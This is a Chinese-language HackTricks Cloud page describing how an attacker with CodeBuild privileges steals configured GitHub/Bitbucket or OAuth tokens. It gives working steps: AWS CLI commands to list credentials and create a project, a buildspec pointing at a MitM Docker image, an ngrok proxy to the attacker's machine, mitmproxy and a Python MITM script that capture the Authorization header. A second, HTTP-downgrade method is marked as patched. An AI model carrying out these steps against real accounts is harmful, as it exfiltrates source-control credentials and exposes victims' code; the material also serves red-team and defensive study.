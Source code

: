# AWS Codebuild - 令牌泄露

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 恢复配置的Github/Bitbucket令牌

首先，检查是否有任何您可以泄露的已配置的源凭证：
```bash
aws codebuild list-source-credentials
```
### 通过 Docker 镜像

如果您发现例如 Github 的认证设置在账户中，您可以通过让 Codebuild **使用特定的 Docker 镜像**来运行项目的构建，来**泄露**那个**访问**（**GH 令牌或 OAuth 令牌**）。

为此，您可以**创建一个新的 Codebuild 项目**或更改现有项目的**环境**来设置**Docker 镜像**。

您可以使用的 Docker 镜像是 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)。这是一个非常基础的 Docker 镜像，它将设置**环境变量 `https_proxy`**、**`http_proxy`** 和 **`SSL_CERT_FILE`**。这将允许您拦截在 **`https_proxy`** 和 **`http_proxy`** 中指示的主机的大部分流量，并信任在 **`SSL_CERT_FILE`** 中指示的 SSL 证书。

1. **创建并上传您自己的 Docker MitM 镜像**
* 按照仓库的说明设置您的代理 IP 地址和 SSL 证书，并**构建 Docker 镜像**。
* **不要设置 `http_proxy`**，以免拦截对元数据端点的请求。
* 您可以使用 **`ngrok`**，比如 `ngrok tcp 4444` 来设置代理到您的主机
* 一旦您构建了 Docker 镜像，**上传它到一个公共仓库**（Dockerhub、ECR...）
2. **设置环境**
* 创建一个**新的 Codebuild 项目**或**修改**现有项目的环境。
* 设置项目使用**之前生成的 Docker 镜像**
*

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
3. **在您的主机中设置 MitM 代理**
* 如**Github 仓库**中所示，您可以使用类似的东西：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
4. **运行构建 & 捕获凭证**

*   你可以在 **Authorization** 头中看到令牌：

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

这也可以通过 aws cli 来完成，类似于

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~通过 HTTP 协议~~

{% hint style="success" %}
**这个漏洞在 2023 年 2 月 20 日那周的某个时候被 AWS 修复了（我认为是在周五）。所以攻击者现在无法再滥用它了 :)**
{% endhint %}

拥有 **在 CodeBuild 上提升权限的攻击者可以泄露配置的 Github/Bitbucket 令牌**，或者如果权限是通过 OAuth 配置的，那么可以泄露用于访问代码的**临时 OAuth 令牌**。

* 攻击者可以向 CodeBuild 项目添加环境变量 **http\_proxy** 和 **https\_proxy**，指向他的机器（例如 `http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

* 然后，将 github 仓库的 URL 从 HTTPS 改为 HTTP，例如：**http://**github.com/carlospolop-forks/TestActions
* 接着，在代理变量（http\_proxy 和 https\_proxy）指向的端口上运行 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) 中的基本示例
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最后，点击 **Build the project**，**credentials** 将以明文（base64）形式发送到 mitm 端口：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
现在，攻击者将能够从他的机器上使用 token，列出它拥有的所有权限，并且比直接使用 CodeBuild 服务更容易（滥）用。
{% endhint %}

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零到英雄学习 AWS 黑客攻击！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 HackTricks 中看到您的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs**](https://opensea.io/collection/the-peass-family) 收藏
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧。

</details>
